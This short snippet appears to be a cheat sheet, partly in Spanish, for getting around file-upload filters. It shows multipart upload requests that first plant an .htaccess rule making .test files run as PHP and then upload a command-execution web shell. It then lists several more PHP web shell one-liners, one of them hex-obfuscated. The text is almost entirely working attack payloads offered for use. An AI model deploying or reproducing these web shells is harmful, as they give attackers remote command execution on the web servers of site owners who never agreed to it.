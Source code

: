 -- -
1. Content-Disposition: form-data; name="fileToUpload"; filename=".htaccess" 
    Content-Type: text/plain
    AddType application/x-httpd-php .test 
2. 
	Content-Disposition: form-data; name="fileToUpload"; filename="cmd.test" 
	Content-Type: application/x-php
	
	<?php
		system($_GET['cmd']);
	?>
**Otro tipo de webshells en php:**

```php
<?=`$_GET[0]`?>

<?php
	$c=$_GET['cmd'];
	 echo `$c`;
?>

<?php
	"system"("id");
?>

<?php
	"\x73\x79\x73\x74\x65\x6d"($_GET['cmd']);
?>a
```